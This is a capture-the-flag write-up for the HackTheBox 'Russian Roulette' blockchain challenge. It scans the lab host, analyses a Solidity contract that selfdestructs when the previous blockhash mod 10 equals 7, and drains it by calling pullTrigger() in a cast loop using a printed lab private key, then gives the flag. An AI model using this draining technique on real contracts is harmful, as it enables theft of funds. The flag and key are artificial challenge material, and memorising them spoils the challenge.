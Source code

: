 # Russian Roulette

## Challenge Description

Welcome to The Fray. This is a warm-up to test if you have what it takes to tackle the challenges of the realm. Are you brave enough?

***

## Solution

## Information Gathering

First I started the target instance, I got a single target with two open ports. To what services run on these ports, I decided to run an nmap scan on the ports that are given.

```bash
nmap -A -T4 -p 33484,41124 83.136.255.150
```

From the results of `nmap`, we can see that port 33484 is sandbox environment where the contract server is running.

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

On port 41124, the challenge handler which is a RPC service is running.

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

First I connected to the challenge handler, to get more information about the contract.

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

From the challenge handler, I got the following information:

```textile
Private key     :  0x6ca30395d6012c9c71f1f24ba95029cf2f59ff7d1ad62eddd17aece6d23799fa
Address         :  0x813Cd33aed3364b6791a326DCc94a0dd0cB1e0Db
Target contract :  0x8e2D890BfA477640328910d7C1E6168854FcCBCa
Setup contract  :  0xB2c469e6625263727d00aFa7fe29206568C41aaf
```

## Code Analysis

Download the given file and extract it.

### Setup.sol

This file sets up the contract. To solve this challenge, we have to get the balance of the  target wallet to 0. Initially we have around 10 ether we have to bring it to 0 ether.

```solidity
// Setup.sol
pragma solidity 0.8.23;

import {RussianRoulette} from "./RussianRoulette.sol";

contract Setup {
    RussianRoulette public immutable TARGET;

    constructor() payable {
        TARGET = new RussianRoulette{value: 10 ether}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```



### RussianRoulette.sol

This is the contract that we have to exploit. The code that we need to exploit is inside the `pullTrigger()` function. The `selfdestruct()` call will erase the code of the smart contract as well as send the all the ether that is left in the contract to the `msg.sender`. You can learn more about the `selfdestruct()` function here:

{% embed url="https://docs.soliditylang.org/en/v0.8.23/introduction-to-smart-contracts.html#deactivate-and-self-destruct" %}

```solidity
// RussianRoulette.sol
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
}
```

To invoke the `selfdestruct()` function, the following condition has to be satisfied:

```solidity
uint256(blockhash(block.number - 1)) % 10 == 7
```

The above condition basically takes the previous blocks blockhash and converts it to `uint256` form, then the resultant value undergoes a modulo 10 operation which should result in the value 7.

## The vulnerability

The above mentioned condition can be satisfied by calling the `pullTrigger()` function repeatedly within a short amount of time, which satisfies the above condition.

{% embed url="https://www.immunebytes.com/blog/transaction-ordering-dependency-how-can-it-hamper-a-smart-contract/" %}

## Exploiting the Vulnerability

For interacting with the contract sandbox running on port 33484 in my case, I used Foundry's cast utility. You can install this utility by refering the following docs:

{% embed url="https://book.getfoundry.sh/getting-started/installation" %}

The syntax for interacting with the sandbox environment is as follows. We are trying to invoke the `pullTrigger()` function using the following command.

```bash
cast send <TARGET_CONTRACT> <FUNCTION> --rpc-url {RPC_URL} --private-key <PRIVATE_KEY>
```

```bash
cast send 0x8e2D890BfA477640328910d7C1E6168854FcCBCa 'pullTrigger()' --rpc-url http://83.136.255.150:33484/ --private-key 0x6ca30395d6012c9c71f1f24ba95029cf2f59ff7d1ad62eddd17aece6d23799fa
```

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

We can see that the above command executed successfully.

Now its time to call the `pullTrigger()` function multiple times in a short amount of time. For that i have created a for loop with bash, to execute the above command multiple times.

```bash
for _ in {0..10}; do cast send 0x8e2D890BfA477640328910d7C1E6168854FcCBCa 'pullTrigger()' --rpc-url http://83.136.255.150:33484/ --private-key 0x6ca30395d6012c9c71f1f24ba95029cf2f59ff7d1ad62eddd17aece6d23799fa; done
```

After executing the above command, You can get the flag from the RPC service.

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Flag: `HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}`
